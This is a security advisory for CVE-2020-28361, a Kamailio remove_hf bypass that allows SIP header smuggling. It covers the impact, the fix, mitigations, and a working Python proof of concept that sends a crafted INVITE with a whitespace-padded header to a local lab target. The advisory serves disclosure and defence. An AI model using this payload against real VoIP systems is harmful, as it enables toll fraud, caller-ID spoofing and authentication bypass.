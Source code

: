 # Kamailio vulnerable to header smuggling possible due to bypass of remove_hf

- Fixed versions: Kamailio v5.4.0
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-01-kamailio-remove-hf>
- References: CVE-2020-28361
- Tested vulnerable versions: 5.3.5 and earlier
- Timeline:
    - Report date & issue patched by Kamailio:  2020-07-16
    - Kamailio rewrite for header parser (better fix): 2020-07-16 to 2020-07-23
    - Kamailio release with fix: 2020-07-29
    - Enable Security advisory: 2020-09-01

## Description

Kamailio is often configured to remove certain special internal SIP headers from untrusted traffic to protect against header injection attacks by making use of the `remove_hf` function from the Kamailio `textops` module. These SIP headers were typically set through Kamailio which are then used downstream, e.g. by a media service based on Asterisk, to affect internal business logic decisions. During our tests and research, we noticed that the removal of these headers can be bypassed by injecting whitespace characters at the end of the header name.

Note that this issue only affected header names that are __not__ defined in `src/core/parser/hf.h`.

Further discussion and details of this vulnerability can be found at the Communication Breakdown blog: https://www.rtcsec.com/2020/09/01-smuggling-sip-headers-ftw/.

## Impact

The impact of this security bypass greatly depends on how these headers are used and processed by the affected logic. In a worst case scenarios, this vulnerability could allow toll fraud, caller-ID spoofing and authentication bypass.

## How to reproduce the issue

We prepared a docker-compose environment to demonstrate a vulnerable setup which can be found at <https://github.com/EnableSecurity/advisories/tree/master/ES2020-01-kamailio-remove-hf/repro>. The following python code could then be used to reproduce the issue:

```python
#!/usr/bin/env python3
sipmsg  = "INVITE sip:headerbypass@localhost SIP/2.0\r\n"
sipmsg += "Via: SIP/2.0/UDP 127.0.0.1:48017;rport;branch=z9hG4bK-%s\r\n"
sipmsg += "Max-Forwards: 70\r\n"
sipmsg += "From: <sip:anon@localhost>;tag=%s\r\n"
sipmsg += "To: sip:whatever@whatever.local\r\n"
sipmsg += "Call-ID: %s\r\n"
sipmsg += "CSeq: 1 INVITE\r\n"
sipmsg += "Contact: <sip:1000@127.0.0.1:48017;transport=udp>\r\n"
sipmsg += "X-Bypass-me : lol\r\n"
sipmsg += "Content-Length: 237\r\n"
sipmsg += "Content-Type: application/sdp\r\n"
sipmsg += "\r\n"
sipmsg += "v=0\r\n"
sipmsg += "o=- 1594727878 1594727878 IN IP4 127.0.0.1\r\n"
sipmsg += "s=-\r\n"
sipmsg += "c=IN IP4 127.0.0.1\r\n"
sipmsg += "t=0 0\r\n"
sipmsg += "m=audio 58657 RTP/AVP 0 8 96 101\r\n"
sipmsg += "a=rtpmap:101 telephone-event/8000/1\r\n"
sipmsg += "a=rtpmap:0 PCMU/8000/1\r\n"
sipmsg += "a=rtpmap:8 PCMA/8000/1\r\n"
sipmsg += "a=rtpmap:96 opus/8000/2\r\n"
sipmsg += "a=sendrecv\r\n"

target = ("127.0.0.1",5060)

import socket
import time
from random import randint
s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
s.bind(("0.0.0.0",5088))
r = randint(1000,9999)
data = sipmsg % (r,r,r)
s.sendto(data.encode("utf-8"), target)
while True:
    data,addr=s.recvfrom(4096)
    print(data.decode("utf-8"))
    time.sleep(5)
```

In the case of a vulnerable version of Kamailio, Asterisk would respond with a 200 OK while in a fixed version, Asterisk would respond with a 603 Decline response. This is specific to the [dialplan](https://github.com/EnableSecurity/advisories/blob/master/ES2020-01-kamailio-remove-hf/repro/asterisk/config/extensions.conf) in our example, which jumps to an internal dialplan if the `X-bypass-me` header is found.

## Solutions and recommendations

The official Kamailio fix has been tested and found to sufficiently address this security flaw. We recommend making use of the latest release or backporting the fixes where possible. Making use of regular expressions to cover white-space characters with `remove_hf_re` has been suggested as mitigation for this issue for cases where the code cannot be upgraded.

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within minutes of our report being made available to him, as well as Torrey Searle for reporting this issue quickly to the Kamailio team.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.


